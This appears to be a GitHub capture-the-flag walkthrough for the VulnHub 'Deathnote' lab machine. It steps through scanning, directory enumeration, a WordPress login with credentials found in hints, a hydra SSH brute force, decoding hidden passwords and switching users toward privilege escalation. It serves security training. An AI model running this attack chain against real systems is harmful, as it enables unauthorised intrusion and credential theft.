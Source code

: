 
# DEATHNOTE
#### Download the machine from vulnhub or go for the [link](https://download.vulnhub.com/deathnote/Deathnote.ova).
![deathnote vulnhub](https://user-images.githubusercontent.com/112984045/201843771-c3f68b39-9b6e-4df4-9eef-0d90fa1c8445.png)<br>

* #### This is a direct walk-through to the flag. Hopping that you have given your best before referring to this write-up
* #### Do follow this page through out the line to void confusion.

### `setup the machine to vmware or virtualbox and run the machine.`
### `It is recommended to keep both attack and deathnote machines on either briged or NAT network`
### ` After a successful setup go for the commands :`

## ENUMERATION :

```bash
netdiscover -i < interface >
```
`Example command : netdiscover -i eth0`
![deathnote netdiscover](https://user-images.githubusercontent.com/112984045/201920948-904f4e4d-0ac8-42ac-bf79-49646b91c2f3.png)<br>

* For ENUMERATION we use nmap tool which come by default in kali linux.
 <br>command :
 
```bash
nmap -sC -sV -T4 -v < IP >
```
![deathnote nmap](https://user-images.githubusercontent.com/112984045/201921950-90d2d0a7-9879-4919-b4eb-397ba12743df.png)<br>
 ~ we can add -v argument for more verbose output.<br>
 
  * I usually perform one more scan by using my personal tool : [port-scanner](https://github.com/shybu9/port-Scanner)
![deathnote portscanner](https://user-images.githubusercontent.com/112984045/201923393-7c7f0019-07c4-40cb-8f00-3ad50954bacd.png)<br>
 ~ I prefer this tool because of its speed as you can see it just took 40 seconds for scanning 65535 ports.<br>Even still some improvements are to be done
 
 ### ANALYSING BOTH SCANS :
 * number of OPEN PORTS : 2
 * PORT NUMBERS : 22,80
 * OPERATING SYSTEM : Linux
 * service running on PORT 22 : ssh
 * service running on PORT 80 : http
 
 * As the port 80 is open lets have a look on web pages using IP
 ```bash
 http://<IP>
 ```
 ![deathnote iponweb](https://user-images.githubusercontent.com/112984045/201925983-a0bcb8d9-91a8-4bf9-bcf1-67a0c31efb03.png)

 
 <br>
 
 * As the web-request is redirecting to deathnote.vuln.. go for changing the host
 ```bash
 nano /etc/hosts
 ```
 * Add the ip and web domain<br>
 ![deathonte etchosts](https://user-images.githubusercontent.com/112984045/202195455-15b4f27b-efae-4331-8bf8-40886fcb5942.png)
<br>

```bash
 gobuster dir -u < IP >/  --no-error -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```
![deathnote gobuster](https://user-images.githubusercontent.com/112984045/202196928-a5a374e9-b12c-4146-bad0-a2b69c46696b.png)
```bash
gobuster dir -u < IP >/  --no-error -w /usr/share/wordlists/dirb/common.txt  -t 50
```
![deathnote gobuster common](https://user-images.githubusercontent.com/112984045/202197447-008f5b28-3b2e-41e4-85f3-cbd5325101ab.png)
<br>

* Web-request
```bash
http://< IP >/robots.txt
```
![deathnote robots](https://user-images.githubusercontent.com/112984045/202197893-4fdb3263-af51-4c5e-bb03-988b2e803244.png)<br>

`follow the lead`
```bash
http://< IP >/important.jpg
```
![deathnote importweb](https://user-images.githubusercontent.com/112984045/202199038-4d4e031e-c11d-4990-96bf-e84036559c65.png)
```bash
wget http://< IP >/important.jpg
```
![deathnote important crack](https://user-images.githubusercontent.com/112984045/202199212-ec1e495f-0b6a-46b8-84d2-0cd4a5ddc942.png)<br>
```bash
http://deathnote.vuln/wordpress/index.php/hint/
```
![deathnote hint](https://user-images.githubusercontent.com/112984045/202249653-4f9c4014-c6f3-4337-b4e1-6c547044314f.png)<br>
![deathnote Lcomment](https://user-images.githubusercontent.com/112984045/202250763-74359e02-f4e5-482c-a7d3-f609176742d5.png)<br>

` I think i have found something else`
* PASSWORD :  iamjustic3
```bash
http://< IP >/wordpress/wp-admin
```
![deathnote adminpage](https://user-images.githubusercontent.com/112984045/202252487-37685b3e-fd85-4ef2-b1dd-e6df4387408e.png)<br>


`It was a simple guess...`<br>
* USERNAME : Kira<br>
* PASSWORD : iamjustic3
<br>


![deathnote adminmedia](https://user-images.githubusercontent.com/112984045/202252864-f213d504-e0fb-4fba-b4af-c502a9ce51fb.png)<br>

 ![deathnote webnote](https://user-images.githubusercontent.com/112984045/202262434-46e427b8-b93f-4802-98a8-334af3e859f1.png)
 <br>
 
 ```bash
 wget < copied link >
 ```
 ![deathnote notes](https://user-images.githubusercontent.com/112984045/202262450-5038af71-b0ca-412a-a255-f30b6de2871f.png)
<br>

```bash
hydra -l l -P notes.txt ssh://< IP >
```
![deathnote l](https://user-images.githubusercontent.com/112984045/202267251-08e7fc8a-d649-4b2e-bf4b-054135373a6e.png)

```bash
ssh l@< IP >
```
![deathnote ssh l](https://user-images.githubusercontent.com/112984045/202267838-6f78065c-e3b8-486c-a7dc-8975eff5c27e.png)
<br>

```bash
cat user.txt
```
![deathnote cat user](https://user-images.githubusercontent.com/112984045/202270033-a97517c9-fd6e-46e6-9ff8-3222ed3dc5a4.png)<br>

* Use the [link](https://www.tutorialspoint.com/execute_brainfk_online.php) to decode brainfuck 
![deathnote brainfuck](https://user-images.githubusercontent.com/112984045/202270063-23ed6650-9776-4fd7-985d-c946107280fe.png)

```bash
cd /opt/L/fake-notebook-rule
```
```bash
cat case.wav
```
![deathnote shell opt](https://user-images.githubusercontent.com/112984045/202354580-fb7ba709-29d3-4ba1-892d-a851f2d4e960.png)
![deathnote cyberchief](https://user-images.githubusercontent.com/112984045/202354738-14994187-1b59-44da-961f-f68431d98c91.png)

<br>

* Username : kira<br>
* Password : kiraisevil<br>

```bash
su kira
```
![deathnote su-kira](https://user-images.githubusercontent.com/112984045/202356862-d507d37a-84b9-4633-b0e0-0c77cf983cc3.png)

## PRIVILEGE ESCALATION

```bash
sudo -l
```
![deathnote root](https://user-images.githubusercontent.com/112984045/202358116-5a24d4f5-835b-4e78-ae90-dd0809dd1611.png)


<br>

### FOR ANY DOUBTS OR SUGGESTIONS DO WRITE TO shy.bu9@gmail.com
 
